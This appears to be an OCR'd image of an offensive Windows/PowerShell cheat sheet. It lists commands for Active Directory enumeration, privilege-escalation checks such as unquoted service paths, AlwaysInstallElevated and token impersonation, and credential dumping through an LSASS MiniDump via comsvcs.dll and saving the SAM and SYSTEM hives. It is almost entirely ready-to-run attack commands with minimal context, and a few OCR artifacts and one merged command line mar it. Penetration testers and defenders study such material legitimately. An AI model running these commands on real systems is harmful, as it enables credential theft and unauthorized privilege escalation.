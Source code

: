 ### **Active Directory**
```
Get-ADUser -Filter * -Property * | Select Name, SamAccountName
Get-ADComputer -Filter * | Select Name, OperatingSystem
```
---

## **🚀 Privilege Escalation**

### **Find Weak Service Permissions**

```
Get-WMIObject Win32_Service | Where-Object {$_.StartName -eq "LocalSystem"}
```

### **Token Impersonation**

```
Invoke-TokenManipulation -EnablePriv
```

### **Check for Unquoted Service Paths**

powershell

CopyEdit

```
Get-WMIObject Win32_Service | Select-String -Pattern '"C:\\Program Files\\' | Select PathName
```

### **Check for AlwaysInstallElevated**

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
```
---

## **🔑 Credential Dumping**

### **LSASS Dump (Requires Admin)**


```
rundll32.exe C:\windows\system32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\temp\lsass.dmp full
```

### **Dump Credentials from Registry**

```
reg save HKLM\SAM C:\temp\SAM reg save HKLM\SYSTEM C:\temp\SYSTEM
```

